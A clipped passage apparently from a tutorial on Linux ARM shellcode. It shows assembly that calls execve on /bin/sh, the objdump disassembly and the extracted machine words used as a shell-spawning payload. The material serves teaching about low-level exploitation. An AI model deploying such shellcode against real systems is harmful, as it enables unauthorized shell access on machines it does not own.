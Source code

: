 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [jumpnowtek.com](https://jumpnowtek.com/shellcode/linux-arm-shellcode-part2.html)

Using the shell.s example from Part 1

```
.text
.global _start

_start:
    adr r0, _string
    mov r1, #0
    mov r2, #0
    mov r7, #11
    svc #1

_string:
.asciz  "/bin/sh"


```

After compiling

The object code looked like this

```
$ objdump -d shell.o

shell.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:   e28f000c        add     r0, pc, #12
   4:   e3a01000        mov     r1, #0
   8:   e3a02000        mov     r2, #0
   c:   e3a0700b        mov     r7, #11
  10:   ef000001        svc     0x00000001

00000014 <_string>:
  14:   6e69622f        .word   0x6e69622f
  18:   0068732f        .word   0x0068732f


```

The machine instructions, our “shellcode”, are the 32 bit values in the second column.

```
e28f000c
e3a01000
e3a02000
e3a0700b
ef000001
6e69622f
0068732f


```
